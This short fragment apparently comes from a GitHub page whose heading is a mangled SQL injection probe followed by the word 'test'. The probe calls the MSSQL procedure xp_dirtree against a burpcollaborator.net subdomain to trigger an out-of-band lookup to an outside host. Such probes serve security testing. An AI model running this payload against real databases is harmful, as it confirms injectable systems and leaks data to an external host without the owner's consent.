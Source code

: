 # test-exec-master.dbo.xp_dirtree-ek2sn86xao2zd5854eg6pr7ez551xpoicaz3ns.burpcollaborator.net-okj----
test
